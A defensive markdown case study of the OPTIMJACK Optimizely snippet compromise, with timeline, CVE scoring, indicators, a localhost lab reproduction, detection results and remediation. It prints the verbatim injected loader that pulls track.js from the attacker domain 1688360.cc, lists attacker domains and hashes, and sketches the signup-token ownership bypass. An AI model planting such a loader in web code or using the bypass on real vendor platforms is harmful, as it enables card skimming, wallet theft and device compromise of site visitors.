

# OPTIMJACK Case Study

**Incident:** Optimizely Web Experimentation Project JavaScript supply-chain compromise  
**Campaign name:** OPTIMJACK  
**CVE:** CVE-2026-132224  
**Date:** 16 November 2026  
**Affected footprint:** 178 organizations; 188 compromised snippets out of 1,611 checked  
**Evidence base:** public incident reporting plus the local OPTIJACK lab reproduced in this repository

---

## Executive summary

On 16 November 2026, an attacker exploited a flaw in Optimizely Web Experimentation's account signup flow and wrote malicious JavaScript into customer Project JavaScript (`projectJS`) fields. Optimizely's own CDN then served the modified snippets from `cdn.optimizely.com`, under Optimizely's certificate, to visitors of 178 organizations. The compromised snippets included CNN, BBC, Zoom, Salesforce, GitLab, HSBC, IKEA, and Ledger. Report URI found the injected code in 188 of 1,611 Optimizely snippets it checked.

The payload loaded a second script, `track.js`, from `1688360[.]cc`. It skimmed payment-card fields, swapped copied cryptocurrency wallet addresses for attacker-controlled addresses, stole cookies and screenshots, and delivered iOS exploit kits known as Coruna and DarkSword. Optimizely closed the vulnerability at 16:10 UTC and removed the injected code from all affected projects by 22:24 UTC. Report URI reported one infected snippet remained at 21:52 UTC and every file was clean by 23:11 UTC.

This is a client-side supply-chain incident, not a breach of each affected website. The malicious code arrived through a trusted vendor origin, so TLS, WAF, and network controls could not distinguish it from legitimate Optimizely JavaScript. CSP enforcement, SRI verification, pinned script hashes, vendor authorization, and behavioral detection are the controls that expose and block this class of attack.

---

## Timeline

| UTC date/time | Event | Source |
| --- | --- | --- |
| 10 Nov 2026 | Netskope telemetry observed the iOS router domain six days before the Optimizely injection. | Netskope Threat Labs |
| 12–17 Nov 2026 | Netskope customers requested attacker domains, almost always while browsing an affected brand site. | Netskope Threat Labs |
| 16 Nov, approx. 04:00–21:00 | Salesforce reports the exposure window for Optimizely scripts on its properties. | Salesforce Security |
| 16 Nov, 07:51 | Optimizely's investigation records the first malicious code write. | Optimizely incident report |
| 16 Nov, 13:34 | Optimizely detected the malicious activity. | Optimizely incident report |
| 16 Nov, 16:10 | Optimizely closed the vulnerability. | Optimizely incident report |
| 16 Nov, 20:56 | Report URI observed 169 infected snippets remaining. | Report URI |
| 16 Nov, 21:52 | Report URI observed one infected snippet remaining. | Report URI |
| 16 Nov, 22:24 | Optimizely removed injected code from all affected projects. | Optimizely incident report |
| 16 Nov, 23:11 | Report URI reports every checked file was clean. | Report URI / StepSecurity |
| 17 Nov 2026 | Optimizely confirmed the incident and stated the vulnerability was fixed. | Optimizely / StepSecurity |
| 18 Nov 2026 | CVE-2026-132224 was published. | CVE Record / NVD |
| 20 Nov 2026 | Optimizely shortened the customer incident report and linked the full version. | Optimizely incident report |

The timeline distinguishes three different windows: when malicious writes began (07:51 UTC), when delivery was observed on customer sites (Salesforce reports approximately 04:00–21:00 UTC), and when the vendor removed the code (22:24 UTC). Those are not the same measurement.

---

## What happened

### 1. Trusted snippet path

Optimizely Web customers load a JavaScript snippet from Optimizely's CDN, for example:

```text
https://cdn.optimizely.com/js/<project-id>.js
```

The snippet contains Optimizely's own code, the customer's experiments, and an optional `projectJS` field: custom JavaScript written by the customer in the Optimizely dashboard. The `projectJS` code runs on every page that loads the snippet.

### 2. Attacker write

Optimizely's incident report states that an unauthorized third party exploited a vulnerability in the Web Experimentation account signup flow. The attacker used it to impersonate users and insert malicious JavaScript into the Project JavaScript of customer projects. Optimizely says this was not a compromised administrator account and not a customer password breach: the flaw let the attacker act as administrator users without those users' credentials.

Report URI observed that the rest of each snippet was untouched. The attacker only added code to the customer-editable `projectJS` field, and Optimizely's CDN served the modified file from a host every affected site already trusted. Sites that self-hosted the snippet were also affected because the content came from the same Optimizely project.

### 3. Loader variants

Report URI and The Hacker News describe three injected loader forms:

1. A plain `<script>` tag pointing at `https://1688360[.]cc/track.js`. This was the most common form.
2. The same URL hidden in base64 and decoded at runtime with `atob()`. A text search for `1688360.cc` would miss it.
3. A full copy of the payload embedded inline, used as a fallback when the domain was blocked.

The Zoom snippet contained the plain loader form:

```js
"projectJS": function(){(function(){try{var s=document.createElement('script');s.src='https://1688360.cc/track.js';s.async=true;(document.head||document.documentElement).appendChild(s);}catch(e){}})();
```

### 4. Payload capabilities

| Capability | Observed behavior | Source |
| --- | --- | --- |
| Crypto wallet swapping | Searches for wallet addresses across multiple cryptocurrencies and replaces copied addresses with attacker-controlled addresses. | Report URI / Ars Technica |
| Payment-card skimming | Watches payment form fields and captures card number, expiry, and CVV values. Cards entered in cross-origin payment iframes such as Stripe or Adyen hosted fields were outside its reach. | Report URI / The Hacker News |
| Cookie and screenshot theft | Sends cookies and screenshots back to attacker infrastructure. | Report URI / Netskope |
| iOS exploit delivery | Loads the Coruna and DarkSword exploit chains on iPhones and iPads; Netskope also observed a newer chain targeting iOS 26. | Report URI / Netskope |

Report URI reported verified cryptocurrency transactions to attacker wallets. The public record does not establish a definitive total loss figure for card data; the card-exposure count is unknown.

### 5. Blast radius

- **178 organizations** were reported by Report URI as serving the malicious JavaScript.
- **188 snippets** were infected out of **1,611** Optimizely snippets checked.
- Report URI's peak observation found **186** infected snippets during its sweep, while later counts dropped as Optimizely cleaned projects.
- Optimizely says only Web Experimentation was involved. Feature Experimentation, the SDKs, and legacy Full Stack were not affected.

The 178 figure counts organizations, not individual snippets or visitors. The 188 figure counts compromised snippet files. Those numbers should not be collapsed into one metric.

## Indicators observed

| Indicator | Value | Role | Source | Packaged in ScriptSentinel |
| --- | --- | --- | --- | --- |
| Domain | `1688360.cc` | Loader host serving `track.js` | Report URI / Netskope | Yes |
| Domain | `webshell.lol` | OPTIJACK lab override host | OPTIJACK lab recon | Yes |
| Domain | `linkforge.cc` | OPTIJACK lab override host | OPTIJACK lab recon | Yes |
| Domain | `pay-cloud.online` | OPTIJACK lab override host | OPTIJACK lab recon | Yes |
| Domain | `pay.pay-cloud.online` | OPTIJACK lab override host | OPTIJACK lab recon | Yes |
| Domain | `pay-relay.wordpressadmin001.workers.dev` | OPTIJACK lab override host | OPTIJACK lab recon | Yes |
| Domain | `5vobauua3ojpklx.icu` | iOS router domain | Netskope Threat Labs | Yes |
| Domain | `eil786npto9u5bq.icu` | iOS exploit delivery domain | Netskope Threat Labs | Yes |
| Domain | `l7bcsnwc7nzr3uo.icu` | iOS kit telemetry domain | Netskope Threat Labs | Observed only; extend feed if needed |
| SHA-256 | `f7b84b9a94f749f8ced3f0112d0a66894e8bbc3b4aa5592021d1b8976a9bad40` | `track.js` payload hash | Public incident IOC | Yes |
| SHA-256 | `814a963c0da480e2449d9b6664480156e1cd6d731014117401bf635badec3a0f` | Second compromised `track.js` variant | OPTIJACK lab ground truth | Yes |

IOC matching is case-insensitive and uses exact hostname boundaries and exact 64-hex SHA-256 boundaries. Substring matches such as `1688360.cc.evil` do not match. The `l7bcsnwc7nzr3uo.icu` domain is documented as public telemetry but is not in the packaged feed; operators can add it through the feed schema in [CONTRIBUTING.md](../CONTRIBUTING.md#adding-an-ioc).

---

## CVE record and scoring

| Field | Value | Source |
| --- | --- | --- |
| CVE ID | `CVE-2026-132224` | CVE Record |
| GitHub Advisory | `GHSA-XR6G-WR3X-R365` | GitHub Advisory Database |
| CNA | MITRE Corporation | CVE Record |
| Published | 18 November 2026 | CVE Record / NVD |
| Affected product | Optimizely Web Experimentation, versions before 2026-11-17 | CVE Record / NVD |
| Fixed marker | 2026-11-17 | CVE Record / OpenAdvisories |
| Weakness | CWE-642 External Control of Critical State Data | CVE Record / OpenAdvisories |
| CVSS v4.0 | 7.1 HIGH — `CVSS:4.0/AV:N/AC:H/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:H/SI:H/SA:N` | CVE Record / GHSA |
| CVSS v3.1 (NVD primary) | 8.7 HIGH — `CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N` | NVD API |
| CVSS v3.1 (Tenable display) | 9.1 Critical — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` | Tenable |
| CVSS v2 (Tenable display) | 7.5 HIGH — `CVSS2#AV:N/AC:L/Au:N/C:P/I:P/A:P` | Tenable |
| EPSS | 0.43% (OpenAdvisories 30-day) / 0.43% (EUVD forecast); Rapid7 displays 0% with percentile 36% | OpenAdvisories / ENISA EUVD / Rapid7 |
| CISA KEV | Not listed | Rapid7 / ENISA EUVD |
| CISA SSVC | Exploitation: none; Automatable: yes; Technical impact: total | CVE Record ADP / CISA Vulnrichment |

**CVE links**

- [CVE Record — CVE-2026-132224](https://www.cve.org/CVERecord?id=CVE-2026-132224)
- [NVD — CVE-2026-132224](https://nvd.nist.gov/vuln/detail/CVE-2026-132224)
- [GitHub Advisory — GHSA-XR6G-WR3X-R365](https://github.com/advisories/GHSA-XR6G-WR3X-R365)
- [Rapid7 Vulnerability Database](https://www.rapid7.com/db/vulnerabilities/cve-2026-132224/)
- [Tenable CVE page](https://www.tenable.com/cve/CVE-2026-132224)
- [ENISA EUVD — EUVD-2026-129010](https://euvd.enisa.europa.eu/enisa/EUVD-2026-129010)
- [OpenAdvisories](https://www.openadvisories.org/vuln/CVE-2026-132224)
- [CIRCL Vulnerability-Lookup](https://cve.circl.lu/vuln/cve-2026-132224)

**Scoring caveat:** the public scoring is not uniform. MITRE and GHSA publish CVSS v4.0 7.1 HIGH. NVD's primary CVSS v3.1 metric is 8.7 HIGH. Tenable displays a CVSS v3.1 score of 9.1 Critical with a different vector. Use the CVE Record and NVD primary metric as the canonical vulnerability record; treat aggregator scores as secondary displays.

---

## Attack chain



1. **Exploit the signup flow.** Optimizely's account signup flow mishandled critical state, allowing attacker-controlled code to appear in the `projectJS` field of certain `cdn.optimizely.com` assets.
2. **Write into customer projects.** The attacker inserted a loader into Project JavaScript without needing customer passwords or a compromised Optimizely administrator account.
3. **Serve from the trusted origin.** Optimizely's CDN delivered the modified snippet under the vendor's own certificate. The affected site's browser saw a legitimate `cdn.optimizely.com` response.
4. **Execute on every page.** The `projectJS` field ran whenever the snippet loaded, including pages unrelated to the customer's own code changes.
5. **Fetch the second stage.** The loader fetched `track.js` from `1688360[.]cc`.
6. **Run the payload.** The second stage skimmed card fields, swapped crypto wallet addresses, stole cookies/screenshots, and routed iOS devices into exploit chains.
7. **CSP and SRI decide the outcome.** CSP enforcement can block the loader, `eval()`, or exfil connection. SRI on the vendor tag can block modified bytes before execution.

---

## OPTIJACK lab reproduction

The repository's OPTIJACK lab reproduces the mechanism on localhost, not the production blast radius. The lab uses four CSP profiles (`strict`, `unsafe-eval`, `strict-dynamic`, `no-csp`) and three replicas, producing 12 victim page-sessions per payload variant.

| Lab property | Value |
| --- | --- |
| Scope | `127.0.0.1` / localhost only; eight override domains routed to a local sink |
| Victim sessions | 4 CSP profiles × 3 replicas = 12 per variant |
| Visits | 36 clean visits + 108 attack visits = 144 total |
| Outcome matrix | 36 rows; 18 payload executions; 9 exfil deliveries |
| Telemetry | 54 HTTP requests, 54 DNS queries, 288 CSP violations, 148 script hashes, 696 browser events |
| Detection rules | 3 IOC rules + 6 behavior rules; 9 rules validated |
| Retest | 36 primary rows + 36 SRI-on rows + 36 CSP-only rows |
| Clean false positives | 0 for every validated rule |

**Scale mismatch:** the lab covers 12 victim page-sessions per variant. The real incident hit 178 organizations. The lab demonstrates mechanism, not blast radius.

### Lab attack chain

1. `POST /api/signup` issued a token for an unverified email with role `project_admin`.
2. `PUT /api/projects/acme/js` accepted the token and wrote attacker bytes into the customer's project without ownership enforcement.
3. The CDN served the attacker bytes from the vendor's trusted origin without a hash pin.
4. Victim pages loaded the compromised vendor tag; the CSP profile determined execution and exfil.

### Variant outcomes

| Variant | Profile | Payload executed | Exfil reached sink | Blocking control |
| --- | --- | --- | --- | --- |
| A/B | strict | No | No | `script-src-elem` host allowlist blocked `http://1688360.cc/loader.js` |
| A/B | unsafe-eval | No | No | Same host allowlist; no `strict-dynamic` |
| A/B | strict-dynamic | Yes | No | Payload ran; `connect-src` fell back to `default-src 'self'` and blocked exfil |
| A/B | no-csp | Yes | Yes | No CSP control |
| C | strict | No | No | `eval()` blocked because `'unsafe-eval'` was absent |
| C | strict-dynamic | No | No | `eval()` blocked |
| C | unsafe-eval | Yes | No | `connect-src` blocked exfil |
| C | no-csp | Yes | Yes | No CSP control |

Key result: `strict-dynamic` can execute a compromised vendor tag when the tag carries a nonce, but explicit `connect-src` still blocks exfil. CSP execution control and exfil control are separate decisions.

---

## Detection validation

The OPTIJACK lab validated nine rules against attack-only telemetry slices and clean slices:

| Rule | Family | TP (attacked) | FP (attacked) | Clean TP | Clean FP | Verdict |
| --- | --- | ---: | ---: | ---: | ---: | --- |
| IOC-1 override host | IOC | 108 | 0 | 0 | 0 | keep |
| IOC-2 `track.js` hash | IOC | 0 | 0 | 0 | 0 | keep, coverage gap |
| IOC-3 baseline hash drift | IOC | 111 | 0 | 0 | 0 | keep |
| BEH-1 input read → exfil beacon | Behavior | 24 | 0 | 0 | 0 | keep |
| BEH-2 clipboard read → write | Behavior | 9 | 0 | 0 | 0 | keep |
| BEH-3 eval → non-origin URL | Behavior | 18 | 0 | 0 | 0 | keep |
| BEH-4 connect-src → override host | Behavior | 54 | 0 | 0 | 0 | keep |
| BEH-5 hash drift + external loader | Behavior | 12 | 0 | 0 | 0 | keep |
| BEH-6 sink hit + beacon | Behavior | 54 | 0 | 0 | 0 | keep |

IOC-2 has zero lab true positives because `track.js` was never served in the lab. It remains a real-world indicator for the compromised hash and is documented as a coverage gap rather than dropped.

Detection-as-code reads `GET http://localhost:9092/topics/{topic}/messages?limit=5000` and writes alerts to `logs/alerts.jsonl`. On clean baseline, `alert_count=0`; on forced CDN drift, IOC-3 alerts fire.

---

## Remediation

| Patch | Control | Verified result |
| --- | --- | --- |
| P1 vendor auth | New signup accounts are `viewer` + `verified=0`; customer account is `project_admin` + `verified=1` and owns `acme`; project writes require role, verification, and ownership. | Attacker signup → `viewer`, verified 0; `PUT acme/js` → 403. Customer write → 200, owner `acc_customer_acme`. |
| P2 CSP hardening | Remove `'unsafe-eval'` and `'strict-dynamic'`; add explicit `script-src-elem` host allowlist, `connect-src 'self'`, and CSP for the formerly no-csp profile. | All four profiles return hardened CSP; inline style/onsubmit remain functional. |
| P3 CDN hash pinning | Pin baseline `1ddc1b32fb1e4bc69c0171d8d34551897e001bd6a2bea9f7f136f34542858b01`; emit `X-Script-Integrity`, expected SHA-256, and drift alert headers. | Baseline integrity `ok`; tampered fixture integrity `drift`, alert header `1`. |
| P4 SRI in victim tag | Add `integrity="sha256-HdwbMvseS8acAXHY00VRiX4AG9aivqn38TbzRUKFiwE="` and `crossorigin="anonymous"` to the vendor tag. | Forced CDN drift blocks `acme.js` before execution; Chrome reports an SRI digest mismatch. |
| Detection as code | `lab_run/detection/checker.py` reads telemetry and emits alerts. | Clean baseline `alert_count=0`; forced drift emits IOC-3 alerts. |

Re-test headline:

- **Primary chain:** all 36 rows fail at vendor auth (`PUT` 403); `attack_succeeds=false`, `blocked_at=vendor_auth`.
- **Forced CDN drift with SRI on:** all 36 rows blocked at `cdn_script_integrity`.
- **SRI off, hardened CSP:** all 36 rows blocked at `csp`.
- **Clean re-test:** 36 visits, `browser_executed=0`, `exfil=0`, checker `alert_count=0`, `csp.violations=0`.

---

## Critical analysis: what the public record leaves ambiguous

1. **Counts measure different things.** 178 organizations, 188 infected snippets, 1,611 checked snippets, and 186 observed at peak are distinct metrics. A headline that says "188 sites" or "178 snippets" is imprecise.
2. **CVSS is inconsistent across aggregators.** MITRE/GHSA publish 7.1; NVD's primary CVSS v3.1 metric is 8.7; Tenable displays 9.1 with a different vector. Use the CVE Record and NVD primary metric, and label aggregator scores.
3. **Exposure windows differ by definition.** Optimizely's first malicious write is 07:51 UTC. Salesforce reports an exposure window of approximately 04:00–21:00 UTC. Optimizely removed code by 22:24 UTC. These are write, delivery, and cleanup windows, not one interval.
4. **The exploit mechanics are summarized, not fully public.** The CVE description says the signup flow mishandled critical state. Optimizely says the attacker impersonated users and acted as administrators without credentials. The exact token/ownership bypass is modeled in the OPTIJACK lab, but the production exploit chain is not fully disclosed.
5. **CSP is not a single control.** `strict-dynamic` can execute a compromised nonced vendor tag. The lab shows execution succeeds on `strict-dynamic` A/B while `connect-src` blocks exfil. CSP must control both script execution and connections.
6. **SRI has a maintenance cost.** SRI blocks forced drift before execution, but legitimate vendor releases must update the pinned baseline. An unmaintained baseline creates false positives or fails closed on valid releases.
7. **IOC-2 is a coverage gap.** The packaged `track.js` hash indicator produced zero lab true positives because `track.js` was never served in the lab. It is retained for real-world matching, not claimed as lab-validated.
8. **The lab is not the production cluster.** DNS overrides are synthesized by the c2 sink from HTTP `Host` headers; Kubernetes manifests are replay-only; Tetragon/eBPF is not live. IOC-1 evidence in the lab is HTTP-level, not real DNS.
9. **Payment-iframe reach is limited.** The skimmer could read cards entered into the site's own forms, but not cards inside cross-origin payment iframes such as Stripe or Adyen hosted fields.
10. **No credential theft is claimed.** Optimizely states no customer password was exposed. The incident was an impersonation/write-access flaw, not a password breach.

---

## Operator checklist

1. Inventory every `cdn.optimizely.com/js/*.js` snippet and any self-hosted copies; include the `projectJS` field in the review.
2. Pin SHA-256 baselines for every vendor tag and fail CI on drift.
3. Add `integrity` and `crossorigin` to vendor script tags; update the baseline only on approved releases.
4. Enforce CSP with nonce/hash sources, explicit `script-src-elem` allowlists, `connect-src` allowlists, and `report-uri`/`report-to`.
5. Audit vendor account signup, role assignment, verification, and project ownership; require verified `project_admin` and owner-scoped writes.
6. Export Sigma and Suricata rules; correlate `script.hashes` drift with external loader loads and sink hits.
7. Keep deterministic JSON/Markdown/HTML evidence for PCI-DSS v4.0 Requirements 6.4.3 and 11.6.1.

---

## What ScriptSentinel contributes

| Incident question | ScriptSentinel evidence |
| --- | --- |
| Which scripts does the checkout actually load? | `auditor.py` inventories external and inline `<script>` elements, URLs, nonces, and lengths. |
| Did the vendor bytes change? | `integrity.py` computes SHA-256/SHA-384 and compares declared SRI and pinned baselines; emits `SCRIPT_DRIFT`. |
| Is the CSP strong enough? | `csp_analyzer.py` merges directives, applies penalties, scores 0–100, and grades A–F. |
| Does the script behave like a skimmer? | `scanner.py` matches payment-field harvesting, global listeners, clipboard tampering, eval, base64 unpacking, and `sendBeacon`. |
| Does it contact known OPTIJACK infrastructure? | IOC matching uses exact hostname and exact 64-hex SHA-256 boundaries against packaged feeds. |
| What is the fix? | `remediate.py` emits hardened CSP, drop-in SRI tags, Nginx/Apache blocks, and PCI-DSS mapping. |
| How does it reach a SIEM? | `rules/` exports Sigma YAML and Suricata HTTP/DNS rules. |

---

## Credits and acknowledgements

- **MONAR** — project owner and maintainer; ScriptSentinel and the OPTIJACK lab.
- **Goyya** — community feedback and release review.
- **Luke / Unquant** — infrastructure and AI compute for the OPTIJACK simulation and model validation.
- **Scott Helme / Report URI** — incident discovery, the 178-organization count, snippet analysis, and public IOC reporting.
- **Owais Shaikh / StepSecurity** — payload tracing, wallet analysis, attacker infrastructure, and the OPTIMJACK write-up.
- **Sherrod DeGrippo / Unit42** — third-party privilege and segmentation analysis.
- **Salesforce Security** — affected-organization response and exposure-window reporting.
- **Gianpietro Cutolo / Netskope Threat Labs** — attack-chain telemetry, iOS routing, and domain observations.
- **Optimizely** — vendor advisory, incident timeline, and remediation record.
- **Amirul Cyber** — campaign naming.
- **MITRE, NVD, CISA** — CVE record, CVSS metrics, and SSVC enrichment.

---

## References

| Source | URL | Used for |
| --- | --- | --- |
| Optimizely incident report | [pages.optimizely.com PDF](https://pages.optimizely.com/rs/947-RKE-048/images/Security%20Incident%20Report%20-%20Optimizely%20Web%20Experimentation%20-%20Nov%2017%202026.pdf) | Vendor timeline, signup-flow flaw, impersonation, removal, CSP protection statement |
| Report URI | [World's Largest Brands Infected With Malware Via Optimizely](https://blog.report-uri.com/worlds-largest-brands-infected-with-malware-via-optimizely) | 178 organizations, 188/1,611 snippets, loader variants, payload capabilities |
| StepSecurity | [OPTIMJACK: Optimizely-Hosted Scripts Loaded a Crypto Clipper and Card Skimmer on 178 Organizations](https://www.stepsecurity.io/blog/optimjack-optimizely-hosted-scripts-crypto-clipper-card-skimmer) | Campaign name, timeline, wallet/infrastructure tracing, clean sweep |
| Unit42 | [Borrowed Code, Real Consequences](https://unit42.paloaltonetworks.com/optimjack-supply-chain-attack/) | Segmentation analysis and third-party privilege model |
| Salesforce Security | [Our response to the Optimizely "OPTIMJACK" supply chain compromise](https://www.salesforce.com/blog/our-response-to-the-optimizely-optimjack-supply-chain-compromise/) | Exposure window and affected-organization response |
| Netskope Threat Labs | [Optimizely Snippet Compromise](https://threatlabs.netskope.com/blog/2026/11/optimizely-snippet-compromise) | Attack chain, iOS exploit domains, telemetry observations |
| The Hacker News | [Hijacked Optimizely Scripts Served Card Skimmer and iOS Exploit Kits](https://thehackernews.com/2026/11/hijacked-optimizely-scripts-served-card.html) | Loader variants, payment-iframe limitation, no iPhone takeover observed |
| Ars Technica | [Malicious code delivered through Optimizely](https://arstechnica.com/security/2026/11/malicious-code-delivered-through-optimizely-hits-visitors-to-hundreds-of-sites/) | Trusted-CDN delivery, payload components |
| CVE Record | [CVE-2026-132224](https://www.cve.org/CVERecord?id=CVE-2026-132224) | CVE metadata, CWE-642, CVSS v4.0, references |
| NVD | [CVE-2026-132224](https://nvd.nist.gov/vuln/detail/CVE-2026-132224) | CVSS v3.1 8.7, CPE configuration, primary metric |
| GitHub Advisory | [GHSA-XR6G-WR3X-R365](https://github.com/advisories/GHSA-XR6G-WR3X-R365) | Advisory severity, CVSS v4.0 7.1, references |
| ENISA EUVD | [EUVD-2026-129010](https://euvd.enisa.europa.eu/enisa/EUVD-2026-129010) | EPSS, KEV status, alternative IDs |
| OpenAdvisories | [CVE-2026-132224](https://www.openadvisories.org/vuln/CVE-2026-132224) | EPSS, CWE-642, SSVC summary |
| Rapid7 | [CVE-2026-132224](https://www.rapid7.com/db/vulnerabilities/cve-2026-132224/) | CVSS v4.0 7.1, EPSS, KEV status |
| Tenable | [CVE-2026-132224](https://www.tenable.com/cve/CVE-2026-132224) | CVSS v2/v3/v4 displays and reference list |

---

## Scope note

This case study combines public incident reporting with a local reproduction. The OPTIJACK lab demonstrates mechanism, control behavior, and detection validation on 144 visits across four CSP profiles and three replicas. It does not claim to reproduce the production blast radius of 178 organizations.
